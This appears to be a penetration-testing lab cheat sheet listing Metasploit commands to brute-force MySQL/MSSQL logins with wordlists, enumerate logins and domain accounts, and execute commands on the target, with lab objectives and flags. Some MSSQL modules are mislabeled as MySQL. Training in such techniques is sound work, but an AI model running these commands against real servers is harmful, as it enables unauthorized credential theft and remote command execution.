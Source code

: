 #### Tools
nmap
msfconsole

#### Commands

Brute force mysql server with msfconsole
```
msfconsole
use auxiliary/scanner/mysql/mysql_login
setg rhosts target_ip
set user_file /root/Desktop/wordlist/common_users.txt
set pass_file /root/Desktop/wordlist/100-common-passwords.txt
set verbose false 
options
exploit
```

Enumerate with msfconsole
```
msfconsole
use auxiliary/admin/mysql/mysql_enum
set rhosts target_ip 
```

Enumerate admin logins on MySQL server
```
use auxiliary/admin/mssql/mssql_enum_sql_logins
exploit
```

Run command with msfconsole on MySQL Server
```
use auxiliary/admin/mssql/mssql_exec
set cmd whoami
options
exploit
```

```
use auxiliary/admin/mssql/mssql_enum_domain_accounts

```

## Lab
#### Objectives
-   Discover valid users and their passwords
-   Enumerate MSSQL configuration
-   Enumerate all MSSQL logins
	- sa, dbadmin, auditor, admin
-   Execute a command on the target machine
-   Enumerate all available system users

#### Flags
dbadmin user plain-text password
auditor user plain-text password